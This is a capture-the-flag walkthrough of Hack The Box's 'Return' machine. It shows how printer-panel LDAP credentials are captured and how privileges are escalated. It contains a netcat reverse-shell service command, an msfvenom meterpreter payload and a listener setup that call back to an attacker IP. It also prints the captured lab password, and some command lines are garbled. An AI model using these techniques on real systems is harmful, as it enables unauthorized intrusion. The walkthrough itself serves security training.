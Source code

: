 ```yaml
---
title: "Return Walkthrough: Exploiting Printer Misconfigurations"
date: 2024-11-24 19:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB,ldap,on-prem,privesc_backup]   
description: "Walkthrough of HTB's Return machine"
---
```


## Initial Recon

### NMAP Scan:

I began by scanning for interesting TCP ports to identify potential entry points:

```bash
> open_tcp_ports=$(sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.11.108 --max-retries 0 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
> nmap -A -p $open_tcp_ports 10.10.11.42
```

**TCP scan results:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-25 15:37:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62633/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

No interesting information found in the UDP Scan results

### HTTP Recon

Accessing port 80 displays a web page labeled 'HTB Printer Admin Panel.
![image.png](assets/img/Forest/image%201.png)

Most available sections, such as 'Fax' and 'Troubleshooting,' are static, but the 'Settings' page includes an intriguing form with fields for the server address, port, username, and password, as shown below.
![image.png](assets/img/Forest/image%202.png)

When I submitted the form, I observed that only the IP address field was forwarded to the server. Modifying the username and password fields did not result in any changes to the request.
![image.png](assets/img/Forest/image%203.png)

Further research revealed interesting information
Printers can use LDAP (Lightweight Directory Access Protocol) to query the Active Directory for user details, such as email addresses, usernames, and group memberships. This allows features like:

- Sending scanned documents to a user’s email directly.
- Displaying a list of users for specific authentication or tracking purposes.

For this to work, the printer needs LDAP credentials (often a service account like svc-printer) to bind to AD and perform queries.

I modified the IP address to point to my machine and set up a Netcat listener to intercept the data submitted by the form possibly revealing the password.
![image.png](assets/img/Forest/image%204.png)

The incoming request revealed interesting information, which indeed appears to be a password.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 389                                                                   
listening on [any] 389 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.108] 63453
0*`%return\svc-printer�
                       1edFg43012!!      
```

### SMB Recon

To validate the enumerated credentials, I used  netexec to enumerate SMB shares. The results confirmed that the credentials are valid, with the user having interesting 'READ' and 'WRITE' privileges on certain shares.
![image.png](assets/img/Forest/image.png)

## Remote Access Using Compromised Credentials

I attempted to log in to the machine using the compromised credentials, as shown below:
![image.png](assets/img/Forest/image%206.png)

Navigating to the Users directory reveals two users: svc-printer and Administrator
![image.png](assets/img/Forest/image%205.png)

Accessing "user.txt" on the svc-printer's desktop reveals fiest flag.

## Privilege Escation to SYSTEM

### Method - 1

Enumerating privileges of "svc-printer" using *whoami* command
![image.png](assets/img/Forest/image%207.png)

Since the user has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.
![image.png](assets/img/Forest/image%208.png)

Using robocopy to copy the Administrator’s desktop files to a temporary folder.
![image.png](assets/img/Forest/image%209.png)

Followed by accessing root.txt

### Method - 2

Since the user belongs to the "Server Operators" group, which has the ability to start and stop system services,  leveraged this privilege to gain a reverse shell. Using evil-winrm, we uploaded Netcat to the "Return" machine and modified the service configuration to execute a reverse shell command:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:[SC] ChangeServiceConfig SUCCESS4.exe -e cmd.exe 10.10.16.5 4444"
```

Stopping and restarting the service to trigger the reverse shell

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

However, the obtained shell terminated after a few seconds. To resolve this issue, I proceeded to upload a Meterpreter shell for further exploitation.

Generated meterpreter reverse shell executable payload file using msfvenom
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe > payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Configuring Metasploit listener to listen on 8888

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
```

The same issue was observed when using the Metasploit Framework; the reverse shell terminated after a few seconds.

![image.png](assets/img/Forest/image%2010.png)

To stabilize the session, I migrated the process to a more suitable one using the migrate <pid> command.

![image.png](assets/img/Forest/image%2011.png)

Spawning the shell

![image.png](assets/img/Forest/image%2012.png)

## Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*